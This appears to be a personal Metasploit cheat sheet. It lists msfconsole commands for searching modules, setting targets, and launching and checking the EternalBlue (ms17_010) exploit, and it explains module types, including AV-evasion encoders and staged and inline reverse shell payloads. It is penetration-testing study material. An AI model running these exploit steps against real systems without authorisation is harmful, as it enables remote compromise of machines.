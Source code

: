 # Metasploit

## MSFConsole
Main cli launched by:
```sh
msfconsole

msf6>
```

Find a module:
```sh
msf6 > search ms17-010
msf6 > search type:auxiliary telnet
msf6 > use 0
```

Rankings:
| Ranking | Description |
| ------- | ----------- |
| ExcellentRanking | The exploit will never crash the service. This is the case for SQL Injection, CMD execution, RFI, LFI, etc. No typical memory corruption exploits should be given this ranking unless there are extraordinary circumstances (WMF Escape()). |
| GreatRanking | The exploit has a default target AND either auto-detects the appropriate target or uses an application-specific return address AFTER a version check. |
| GoodRanking | The exploit has a default target and it is the “common case” for this type of software (English, Windows 7 for a desktop app, 2012 for server, etc). Exploit does not auto-detect the target. |
| NormalRanking	| The exploit is otherwise reliable, but depends on a specific version that is not the “common case” for this type of software and can’t (or doesn’t) reliably autodetect. |
| AverageRanking | The exploit is generally unreliable or difficult to exploit, but has a success rate of 50% or more for common platforms. |
| LowRanking | The exploit is nearly impossible to exploit (under 50% success rate) for common platforms. |
| ManualRanking	| The exploit is unstable or difficult to exploit and is basically a DoS (15% success rate or lower). This ranking is also used when the module has no use unless specifically configured by the user (e.g.: exploit/unix/webapp/php_eval). |


Navigate to a directory to use a module:
```sh
msf6> use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Get information and modules:
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > info
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

Set parameters. Confirm with `show options`:
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.10.10
msf6 exploit(windows/smb/ms17_010_eternalblue) > unset LHOST 10.10.10.10
msf6 exploit(windows/smb/ms17_010_eternalblue) > unset all
```

Global parameters apply to all modules
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg rhosts 10.10.10.10
msf6 exploit(windows/smb/ms17_010_eternalblue) > unsetg rhosts 10.10.10.10
```
Check Exploit
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > check
```

Exploit
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z
```

Sessions
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 3
```


## Modules
By default modules are located in `/opt/metasploit-framework/embedded/framework/modules/`

### /auxilary
Scanners, crawlers and fuzzers.

### /encoders
Alter exploits and payloads in hopes to obfuscate and reduce chances of detection.

### /evaison
Attempt to evade anti-virus

### /nops
No Operation literally do nothing. They are represented in the Intel x86 CPU famile with `0x90` following which the CPU will do nothing for one cycle. This is often used as a buffer to achieve consistent payload sizes.

### /payloads
Code that will run on a target system

- *Adapters*: A payload can be wrapped inside a Powershell adapter which can be called by a PS command.
- *Singles*: Self-contained payloads (add user, launch notepad.exe) that do not need an additional component to run.
- *Stagers*: Setting up a connection between Metasploit and the target system. Uplod a stager on the target system that will download additional stages. Useful when limited size is needed.
- *Stage*: A step downloaded by the `stager`

#### Inline / Single Payload
Indicated by `_` between "shell" and "reverse" staged

    1. `generic/shell_reverse_tcp` - Inline payload
    2. `windows/x64/shell/reverse_tcp` - Staged payload

### /post
Used in the final stage.

## Tools
Useful from recon to research.
- msfvenom
- pattern_create
- pattern_offset
